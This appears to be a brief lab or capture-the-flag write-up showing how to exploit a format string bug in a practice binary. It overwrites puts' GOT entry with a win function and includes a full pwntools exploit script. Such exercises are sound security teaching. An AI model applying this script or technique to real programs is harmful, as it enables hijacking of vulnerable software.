



We need to overwrite got address using format string attack in this example.
In this example's disassembly we can see putchar() and puts() functions are called after printf() (vulnerable to format string attacks). In this case we can check if binary has static got entries and if section is writtable:


Using readelf --got-contents:


readelf -S:

We can see it is writtable.

we can choose either one putchar ot puts to overwrite. It is simple formst string attack as before and we have address too. Simply we can use automated attack using pwntools:
```python
from pwn import *

context.binary = ELF("./got-overwrite-echo")

def exec_fmt(payload):
    p = process("./got-overwrite-echo")
    p.sendline(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

p = process("./got-overwrite-echo")

payload = fmtstr_payload(offset, {context.binary.got.puts: context.binary.sym.win})

p.sendafter("echo?\n", payload)

print(p.recvall().strip().decode(errors = "ignore"))
```

If you need better understanding of what it does check out:
[[../format-string-auth/Solution.md]]

